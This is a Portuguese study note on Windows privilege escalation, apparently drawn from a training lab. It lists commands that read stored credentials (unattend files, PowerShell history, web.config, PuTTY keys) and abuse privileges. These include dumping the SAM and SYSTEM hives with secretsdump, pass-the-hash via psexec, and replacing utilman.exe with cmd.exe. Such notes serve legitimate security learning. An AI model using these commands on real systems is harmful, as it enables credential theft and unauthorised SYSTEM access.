 #privesc #windows #techniques 

## Colhendo senhas

### Unattended Installations

Para instalar o Windows em um grande número de hosts os admins podem usar o **Windows Deployment Services**, assim, uma única imagem do sistema é distribuída na rede e não precisam de interação com usuário. Esse tipo de instalação exige uso de uma conta admin que pode acabar sendo armazenada nos locais:

- C:\\Unattend.xml
- C:\\Windows\\Panther\\Unattend.xml
- C:\\Windows\\Panther\\Unattend\\Unattend.xml
- C:\\Windows\\system32\\sysprep.inf
- C:\\Windows\\system32\\sysprep\\sysprep.xml

Em um desses arquivos podem conter credenciais como:

```
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

### Powershell history

Se o usuário digitar um comando no Powershell que inclui a senha, é possível buscar pelo histórico através do cmd.exe com o comando:

```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Credenciais salvas

No Windows é possível usar credenciais de outros usuários em determinadas situações. Tem uma função que da a opção de gravar as credenciais no sistema.

```powershell
runas /savecred /user:admin cmd.exe
cmdkey /list #para ver as cred salvas
```

### Configuração IIS

O **Internet Information Services** é um servidor web padrão nas instalações Windows. Esse serviço possui um arquivo de configuração `web.config` que pode ser encontrado em:

- C:\\inetpub\\wwwroot\\web.config
- C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\Config\\web.config

```powershell
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

### PuTTY creds

O **PuTTY** é um cliente SSH comum do Windows que armazena sessões (parâmetros, usuário, IP) para uso posterior assim não precisa especificar tudo de novo. Embora ele não armazene as senhas SSH, ele armazenará configurações de proxy que incluem as credenciais.

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

! **SimonTatham** é criador do TTY e o nome dele realmente faz parte do path, não é nome do usuário.

## Tarefas agendadas

As procurar por tarefas agendadas, é possível encontrar tarefas que tenha perdido seu executável ou que o executável seja modificável.

```powershell
schtasks /query /tn [nome da task] /fo list /v
schtasks /run /tn [nome da task] #rodar um task que tem permissão para rodar manualmente
```

Para verificar as permissões do executável "Task to Run"

```powershell
icacls c:\tasks\schtask.bat
```

## Service Misconfigurations

O [[Core Windows Process#services.exe|SCM]] é o processo responsável por gerenciar os serviços do Windows. Cada serviço é vinculado a um executável, que para comunicar com SCM, deve implementar funções especiais, ou seja, nem todo executável pode ser iniciado como serviço.

Dois parâmetros interessantes ao analisar um serviço `sc qc [nome do serviço]`
é o `BINARY_PATH_NAME` e `SERVICE_START_NAME`.

### Permissão insegura

Ao ver as permissões do executável de um serviço com `icacls` e o usuário atual conseguir modificar ou substituir já é possível fazer com que ganhe de privilégio da conta do serviço.

Outra forma é verificar se o usuário consegue configurar o serviço

```powershell
accesschk64.exe -qlc [nome do service] #accesschk é do sysinternals
```

### Unquoted path

Ao enviar um comando em que o nome do serviço tenha espaço, por exemplo `sc qc "my service"`, o SCM vai buscar primeiro se existe um  `my.exe` e se não achar vai buscar por `my service.exe`. Se a pasta onde este serviço é editável pelo usuário em questão, o hacker pode criar um malware com nome `my.exe`.

## Privilégios

```
whoami /priv
```

O [Priv2Admin](https://github.com/gtworek/Priv2Admin) tem uma lista de privilégios úteis para escalar.

### SeBackup / SeRestore

Esses dois privilégios dá ao usuário permissão RW para qualquer pasta do sistema, ignorando o DACL do lugar. Isso porque a ideia é garantir que o usuário faça o backup sem precisar de privilégios de admin.

Com isso, arquivos como SAM e SYSTEM podem ser lidos para fazer o dump do hash

```alvo
reg save hklm\system C:\Users\vncs\system.hive
reg save hklm\sam C:\Users\vncs\sam.hive
```

```hacker
impacket-secrectsdump -sam sam.hive -system system.hive LOCAL
```

Depois de conseguir os hashes o hacker pode tentar quebrar ou usar o método **pass the hash** para autenticar

```shell
impacket-psexec -hashes [hash] [usuario]@[ip alvo]
```

### SeTakeOwnership

Esse privilégio permite tomar um arquivo ou outro objeto do sistema como por exemplo registros. Isso pode ser explorado tomando um executável que está rodando como SYSTEM.

Por exemplo, o `utilman.exe` é uma aplicação que roda como SYSTEM e abre esse janelinha (Ease of Access) no login.

![[Pasted image 20240424114726.png]]

Com a permissão é possível tomar posse desse executável e alterar.

```prompt
takeown /f C:\Windows\System32\Utilman.exe
icacls C:\Windows\System32\Utilman.exe /grant [usuario]:F
copy cmd.exe utilman.exe
```

Quando for abrir a janelinha, irá abrir o cmd com usuário SYSTEM.

### SeImpersonate / SeAssignPrimaryToken

Esses privilégio permitem que um processo ou thread assuma a identidade de outro usuário e atue em nome dele.

## Ferramentas de automatização

### [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```
winpeas.exe > output.txt
```

### [PrivescCheck](https://github.com/itm4n/PrivescCheck)

Esse precisa de um bypass das restrições de execução.

```powershell
Set-ExecutionPolicy Bypass -Scope process -Force
. .\PrivescCheck.ps1
Invoke-PrivescCheck
```

### [WES-NG: Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)

Uma alternativa caso o antivírus detecte o winPEAS é o **WES-NG** que roda na máquina do atacante.

Ao instalar esse script em Python, é preciso atualizar `wes.py --update`.